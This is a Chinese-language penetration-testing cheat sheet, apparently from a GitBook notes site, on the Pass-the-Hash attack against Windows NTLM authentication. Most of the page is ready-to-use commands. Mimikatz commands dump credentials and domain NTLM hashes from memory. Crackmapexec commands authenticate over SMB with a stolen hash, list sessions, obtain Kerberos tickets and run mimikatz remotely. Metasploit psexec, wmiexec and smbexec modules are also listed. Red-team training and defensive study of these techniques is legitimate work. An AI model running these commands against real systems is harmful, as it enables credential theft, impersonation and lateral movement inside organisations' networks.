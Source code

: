 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码 / 较旧的且使用NTLM协议的系统
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 需要找到目标用户账户的NTLM哈希
* 目标域名
* 目标系统必须支持SMB / WMI / RPC 等远程认证协议

## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 权限提升
privilege::debug
# 获取详细的用户凭证信息
sekurlsa::logonpasswords full
# 列出当前用户的凭据
lsadump::lsa /patch
# 获取DC上的所有域用户的NTLM哈希
sekurlsa::msv
# 



```

### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### Crackmapexec

```bash
# 使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD
# 在域环境中使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD -d target.com
# 列出活动会话
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --sessions
# 利用NTLM哈希来获取TGT票据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --kerberos
# 利用NTLM哈希直接使用mimikatz提取凭据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --mimikatz
# 仅以smb模块举例，还有其他模块
```

### Metasploit

```bash
# psexec模块
use exploit/windows/smb/psexec
# wmiexec模块
use auxiliary/admin/smb/wmiexec
# smb_login模块
use auxiliary/scanner/smb/smb_login
# smbexec模块
use exploit/windows/smb/smbexec
```

{% hint style="info" %}
哈希传递攻击分为针对本地用户账户和域用户账户，通过抓取目标用户的NTLM哈希来绕过明文密码登录，其本质就是冒充特定的用户账户。
{% endhint %}
